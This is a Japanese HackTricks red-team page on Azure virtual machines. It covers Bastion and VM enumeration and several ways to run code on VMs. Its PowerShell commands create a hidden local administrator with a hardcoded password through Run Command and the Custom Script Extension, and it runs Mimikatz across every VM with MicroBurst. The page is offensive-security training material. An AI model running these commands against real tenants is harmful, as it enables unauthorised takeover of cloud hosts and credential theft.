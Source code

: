 # Az - 仮想マシンとネットワーク

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする。
* **ハッキングトリックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>

## 基本情報

[ドキュメントから：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 仮想マシンは、Azure が提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)のいくつかのタイプの1つです。通常、他の選択肢よりもコンピューティング環境をより細かく制御する必要がある場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべき事項、作成方法、および管理方法についての情報を提供します。

## Azureネットワーク情報

Azureネットワークには**異なるエンティティと構成方法**が含まれています。異なるAzureネットワークエンティティの**簡単な説明**、**例**、および**列挙**コマンドを以下で見つけることができます:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、Azureポータルを介してSSL経由で完全に管理されたRDP（リモートデスクトッププロトコル）およびSSH（セキュアシェル）アクセスソリューションを提供します。これはAzure仮想ネットワーク内に統合されており、プライベートIPを使用してVMにRDPおよびSSH接続を許可し、パブリックIPの必要性を回避します。これにより、VMアクセスのためのパブリックIPの割り当てやNSGルールの構成を必要とする従来の方法に比べて、より安全で便利な代替手段となります。開発者やITスタッフは、Webブラウザを使用してAzureポータルからVMに安全にアクセスでき、開発およびテスト環境のプロセスを効率化できます。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
## VMの列挙

{% endcode %}
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADを経由して認証されたユーザーにアクセスを許可することが可能です。たとえば、**Linux VM** にアクセスしようとする場合: `ssh username@azure-corp.com@1.1.1.1`（ログインしようとしているときに使用したazurecorpのメールを**使用する**ことが重要です）エラーが発生する可能性があります:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

単に**これらの手順に従って**、[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) に移動し、コードを指定し、メールアドレスとパスワードを資格情報として使用して、SSH経由で接続できます（そのユーザーがそのようにするための十分な権限を持っている場合：`Virtual Machine Administrator Login`または`Virtual Machine User Login`ロール）。

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張機能の実行**

Azure仮想マシン（VM）拡張機能は、Azure VM上での**ポストデプロイメント構成**および自動化**タスク**を提供する**小さなアプリケーション**です。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、またはスクリプトの実行が必要な場合、VM拡張機能を使用できます。

したがって、書き込みアクセス権がある場合、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)は、コードを介してホストを設定するために使用されるAnsibleに類似したPowerShellツールです。DSCはAzureと統合されており、特定の構成ファイルをアップロードできます。これらのファイルは厳密な構文に従う必要があります。特筆すべきは、AzureのDSC拡張機能は、DSCの標準に合致しないファイルからコマンドを実行できますが、提供された図に示されているように、構文がDSCの基準に合致しなくてもコマンドを実行できます。

これらのコマンドの実行は、Az PowerShellの[**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0)関数によって容易に行われます。要件には、定義された関数を持つ**.PS1**ファイルと、**.zip**ファイルに圧縮する必要があります。DSCの構文が正確でなくてもコードは実行されます。ただし、拡張機能は実行ステータスを「失敗」とマークし、ステータスが失敗メッセージによって上書きされるため、コマンドからの出力は表示されません。

### VM Application Definitions

VM Application Definitionsを使用すると、バージョン管理されたアプリケーションをAzure VMに繰り返し展開できます。このリソースは、複数のVMにわたるアプリケーションの展開と更新をサポートします。これを設定するには、Az PowerShellの**`New-AzGalleryApplication`**や**`New-AzGalleryApplicationVersion`**などのコマンドを使用するいくつかのステップが必要です。

この方法でアプリケーションやコマンドを実行する際には、**"VMAppExtension"**が関与します。この拡張機能は、アプリケーションがVMに適用されると自動的にインストールされます。拡張機能は、指定されたURIからファイルを取得し、アプリケーションと同じ名前で拡張子なしで保存します。ファイルを正しく実行するには、REST API呼び出しの「ManageActions」フィールドを構成して、ファイルを適切な拡張子でリネームする必要があります。この方法の設定が完了すると、提供された図に示されている構造に似ています。

ただし、この実行方法は比較的遅く、アプリケーションやコマンドを実行するのに約3〜4分かかります。このプロセスに関連するファイルは、アプリケーションのコピー用の特定のディレクトリ（`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`）および実行ステータス用のディレクトリ（`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）に保存されます。

両方のテクニックは、Azure環境でコマンドを実行したりアプリケーションを展開したりするための独自の要件、ステップ、および考慮事項を持っており、それぞれ固有の方法を提供しています。

### AzureのHybrid Worker Groups (HWGs)

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)は、Azureの機能であり、Automation Accountで構成されたRunbookを指定されたHWGの一部であるAzure仮想マシン（VM）で実行できるようにします。この実行は、VMにインストールされた拡張機能によって行われ、RunbookコードがVMに展開されます。このプロセスの重要な側面は、実際の資格情報が実行に影響を与えないことです。なぜなら、コードは特に**SYSTEM**またはrootとして昇格権限で実行されるからです。提供された図に示されているように。

Windows 10 VMを利用するユーザーにとって重要な詳細は、RunbookのPowerShellバージョンを指定する必要があることです。これは、PowerShell 7.1がこれらのVMにデフォルトでインストールされていないため、バージョン7.1を指定するとスクリプトの実行が失敗するためです。

Azureのこの機能は、ハイブリッド環境全体でのタスクの自動化と管理に堅牢な方法を提供し、Azure VM上でのタスクの集中管理と実行を可能にします。


## 参考文献

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学びましょう</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したり、HackTricksをPDFでダウンロードしたり**する場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**をフォローする。**
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有する。

</details>
